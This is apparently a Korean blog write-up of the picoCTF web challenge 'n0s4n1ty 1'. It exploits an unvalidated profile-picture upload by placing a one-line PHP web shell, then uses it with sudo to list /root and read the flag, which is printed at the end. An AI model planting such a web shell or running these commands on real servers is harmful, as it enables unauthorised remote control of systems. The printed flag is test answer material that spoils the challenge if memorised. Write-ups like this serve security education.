 ```yaml
---
title: "(Easy) n0s4n1ty 1"
date: 2025-08-11 00:00:00 +0900
categories: [picoCTF, Web Exploitation]
tags: [picoctf, n0s4n1ty 1, web hacking, write-up]
---
```


# picoCTF / Web Exploitation

---

#### Difficulty Level : Easy
#### Title : n0s4n1ty 1

---

![n0s4nlty 1 figure1](/assets/img/picoCTF/2025-08-05-13-46-12.png)

> [Description]  
> 한 개발자가 웹사이트에 프로필 사진 업로드 기능을 추가했지만, 이 구현에는 결함이 있습니다. 이로 인해 당신에게 기회가 생겼습니다.
> 당신의 임무는 (수락한다면) 제공된 웹 페이지에 접속해 파일 업로드 영역을 찾아내는 것입니다. 궁극적인 목표는 /root 디렉터리에 숨겨진 플래그를 찾는 것입니다.

일단 Description 만 읽었을 때는 "파일 업로드"라는 단어가 자꾸 걸린다...

(파일 업로드 취약점이 먹힐 것 같은 느낌...)

우선 우측 상단에 `Launch Instance`를 클릭해서 문제 접속을 위한 인스턴스를 생성하고,  
생성한 링크에 접속해보자.

![n0s4nlty 1 figure2](/assets/img/picoCTF/2025-08-05-13-53-43.png)

링크에 접속하면 사진과 같은 화면을 볼 수 있는데,

파일 선택을 통해 업로드할 파일을 지정하고, Upload Profile 버튼을 누르면 해당 파일이 서버에 업로드 되는 것 같다.

<br>
일단 아무 파일이나 올려봤다.

![n0s4nlty 1 figure3](/assets/img/picoCTF/2025-08-05-14-00-00.png)

\!?!?!?!?  

Profile 업로드라길래 사진만 올릴 수 있는줄 알았는데, 그냥 아무 파일이나 다 올라가는 모양이다. (검증 x)

파일 업로드 취약점이 존재한다는 것을 알았으니, **웹쉘** 을 업로드해서 플래그가 있다고 하는 /root 폴더에 접근해보자.

### Web Shell?
웹 쉘은 웹 서버에 업로드된 악성 스크립트 파일로, 공격자가 해당 서버를 원경에서 제어할 수 있게 해주는 도구를 말한다.

웹 쉘은 주로 php 코드로 작성되는데,  
그 이유는 php가 서버에서 바로 실행되는 언어이기 때문이다.

또한 많은 웹 서버가 php를 기본적으로 지원하고 있으며, 간단한 문법으로도 강력한 기능 구현이 가능하기 때문에 php 코드를 사용한다.

<br>
웹 쉘은 다음과 같이 작성해주었다.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```
(인터넷에 치면 많이 나옴...)

해당 스크립트를 `webshell.php`라는 이름으로 저장하고 이를 업로드해봤다.

![n0s4nlty 1 figure4](/assets/img/picoCTF/2025-08-05-14-11-12.png)

역시나 잘 올라간다.

친절하게 어디에 올라갔는지 경로도 알려준다.

<br>
URL Path 부분에 해당 경로를 입력해서 웹 쉘이 제대로 실행되는지 확인해보자.  
(해당 웹쉘 파일에 접근하는 것만으로도 서버가 스크립트를 바로 실행해버림)

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php`

![n0s4nlty 1 figure5](/assets/img/picoCTF/2025-08-05-14-14-51.png)

스크립트에서 사용한 `shell_exec()` 함수에서 오류가 발생한 것을 보니 스크립트는 잘 실행되는 것 같다.

<br>
이제 /root 폴더 내부를 확인해보자!

업로드한 웹 쉘은 GET 방식으로 cmd에 값을 받아 명령어를 실행하므로, 다음과 같은 방식으로 명령어를 전달 할 수 있다.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=ls%20/root`  
(%20은 띄어쓰기)

![n0s4nlty 1 figure6](/assets/img/picoCTF/2025-08-05-14-20-05.png)

?!?!?!?!

아무것도 안뜬다...

왜냐하면 권한이 없기 때문...

명령 하나를 root 권한으로 실행시키는 방법이 있는데,  
바로 `sudo` 이다.

`sudo`를 앞에 붙여서 다시 확인해보면.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20ls%20/root`

![n0s4nlty 1 figure7](/assets/img/picoCTF/2025-08-05-14-22-18.png)

오오오 보인다!

이제 해당 파일을 또 `sudo`와 함께 읽어주면?

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt`

![n0s4nlty 1 figure8](/assets/img/picoCTF/2025-08-05-14-23-34.png)

이렇게 플래그를 얻어낼 수 있다.

<br>

flag : ~~picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}~~
